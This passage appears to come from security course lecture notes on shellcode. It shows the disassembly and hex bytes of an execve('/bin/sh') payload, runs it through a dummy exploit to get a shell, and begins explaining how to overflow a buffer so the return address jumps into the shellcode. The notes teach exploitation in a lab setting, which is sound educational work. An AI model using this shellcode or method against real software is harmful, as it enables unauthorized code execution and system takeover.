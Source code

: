 ``` example
 8048066:   56                      push   esi
 8048067:   31 d2                   xor    edx,edx
 8048069:   89 e1                   mov    ecx,esp
 804806b:   89 f3                   mov    ebx,esi
 804806d:   b0 0b                   mov    al,0xb
 804806f:   cd 80                   int    0x80
 8048071:   31 db                   xor    ebx,ebx
 8048073:   31 c0                   xor    eax,eax
 8048075:   b0 01                   mov    al,0x1
 8048077:   cd 80                   int    0x80

08048079 <callback>:
 8048079:   e8 e4 ff ff ff          call   8048062 <dowork>
 804807e:   2f                      das    
 804807f:   62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
 8048082:   2f                      das    
 8048083:   73 68                   jae    80480ed <callback+0x74>
    ...
```

Finally, we can use our shell code in the dummy exploit with success:

``` example
user@si485H-base:demo$ ./hexify.sh execve_nonull
\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
user@si485H-base:demo$ ./dummy_exploit $(printf "\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
$ 
```

# Stack Smashing with Shell Code

## Failed Attempt 1

To make use of this exploit and have it execute our shell code, we need
to overwrite the return address such that it jumps into our shell code.
We have a couple of ways to do this, and we will now enumerate some that
do not work until we get to one that does.

In this attempt, we will send our shell code along with the exploit such
that we will jump to the start of the `buf` in the code. It will look
something like this:

``` example
                   .-------------------------.
                   |                         |
                   v                         |
   ./vulnerable 5 <shell-code><padding><address-of-buf>
```

Once the exploit is complete, the overwritten return address will be the
address of the buffer, and thus we execute our shell code. To start, we
need to know how long our shell code is and we need to know the address
of the buffer.
